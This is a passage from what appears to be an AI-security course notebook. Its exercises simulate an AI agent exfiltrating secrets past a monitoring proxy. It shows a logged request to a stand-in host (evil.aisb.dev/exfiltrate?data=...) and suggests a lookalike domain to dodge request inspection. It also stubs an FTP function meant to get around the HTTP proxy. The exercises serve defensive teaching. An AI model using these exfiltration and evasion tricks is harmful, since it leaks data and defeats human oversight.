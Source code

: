 ```python
    pass
from w1d2_test import test_make_evil_request_pinned
test_make_evil_request_pinned(make_evil_request_pinned)

exfiltrate_data = make_evil_request_pinned
```

**Restart docker containers** and run them again with `docker-compose up` to see the effect of your changes.

#### Summary
- Your agent now validates the server's certificate against a known root CA
- MITM attacks using self-signed certificates will fail - when you run the docker compose, you should see an error like:
```
agent-container    | Certificate validation failed (possible MITM?): HTTPSConnectionPool(host='evil.aisb.dev', port=443): Max retries exceeded with url: /exfiltrate?data=some_secret_data (Caused by SSLError(SSLCertVerificationError(1, '[SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed: unable to get local issuer certificate (_ssl.c:1017)')))
```

#### Exercise 6.2 - Update the url to ev1l.aisb.dev (Optional)
> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵⚪⚪⚪
>
> You should spend up to ~2 minutes on this exercise.

Update the URL in your `make_evil_request_pinned` function to `https://ev1l.aisb.dev/exfiltrate`. This makes it even more difficult to block requests based on just reading the request.

#### Exercise 6.3 - FTP (Optional)
> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵⚪⚪⚪
>
> You should spend up to ~10 minutes on this exercise.

Implement a new function `make_evil_request_ftp` that reads some data over FTP from `ftp.scene.org`. There are many protocols that use TCP but are not HTTP-based, which makes the HTTP proxy unable to intercept them. For reference, see https://attack.mitre.org/techniques/T1095/


```python


def make_evil_request_ftp(secret_data: str) -> Optional[str]:
    """
    Send a request over FTP to ftp.scene.org with secret data.

    This simulates an AI agent attempting to exfiltrate data using a non-HTTP protocol.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the server, or None if the request fails
    """
    # TODO: Implement the function to:
    #   1. Connect to ftp.scene.org using the ftplib library
    #   2. Read some data (e.g., list files in the root directory)
    #   3. Return the response text if successful, None otherwise
    pass
from w1d2_test import test_make_evil_request_ftp
test_make_evil_request_ftp(make_evil_request_ftp)

exfiltrate_data = make_evil_request_ftp
```